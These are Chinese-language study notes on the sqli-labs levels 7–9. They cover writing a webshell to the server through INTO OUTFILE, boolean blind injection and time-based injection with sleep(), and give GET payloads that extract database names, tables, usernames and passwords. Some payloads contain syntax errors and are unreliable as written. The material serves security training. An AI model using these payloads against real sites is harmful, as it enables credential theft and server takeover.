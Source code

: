 # less7(outfile文件写入字符型)
***
## 原理
对服务器上的文件有写入的权限，可以写入小马用菜刀连接从而获取数据库权限
需求:
1.知道文件在服务器上的绝对路径
2.文件大小要小于*max_allowed_packet*
3.*secure_file_priv*的值为空，否则只能读写其中包括的文件

命令：
select 1，2，3 into outfile "绝对地址" %23
## 步骤
1.测验文件内的闭合方式






***
# less 8(单引号get布尔盲注)
## 原理
bool盲注，出现错误的时候没有错误提示，只有页面回显的差别，查看当前源码得知，当传参正确时就会显示you are in，所以只根据页面的对与错来判断语句是否执行正确
而且要得知数据库名表命列名都要一步一步地试出来，过程非常缓慢，通过脚本或者使用sqlmap工具会大大提高效率
## 步骤
1.获取当前数据库长度
`?id=-1' and length(database())=(数字)`
2.获取数据库名称
`?id=-1' and left(database())='英文字母'`
3.获取表名列名同样是爆破
`?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' --+`

`?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' --+`
ps:在爆破单个字母是时使用二分法可以大大缩减所用的时间，灵活运用大于小于号，快速定位字母的位置
类似于这样`left((select database()),1)<'t'`
4.爆用户名`?id=-1' and left((select username from users limit 0,1),1)='d'`
5.爆密码`?id=-1' and left((select password from users limit 0,1),1)='d' `
*不过值得注意的是爆出来的字母是不区分大小写的，具体还需要登录进行尝试*
***
# less 9(get时间布尔盲注)
***
## 原理
根据页面回显所用时间判断语句是否正确执行，使用sleep()函数相配合进行延时显示
## 步骤
1.对页面输入id=1回显正常仍旧是you are in....没有任何其他信息
2.加入单引号再次载入回显正常
3.构造payload`?id=1' and sleep(10) --+`
发现页面十秒后回显正常，也就是说后面的语句被执行了，所以存在注入漏洞
4.于是对其数据库名称长度进行猜解仍旧用到length()函数，
`?id=1' and if(length(database))=8,sleep(5),1) --+`
发现当length长度不等于8时都会秒显示，只有等于8时才会休眠5s再次回显，
5.其余猜解过程同第八关一样
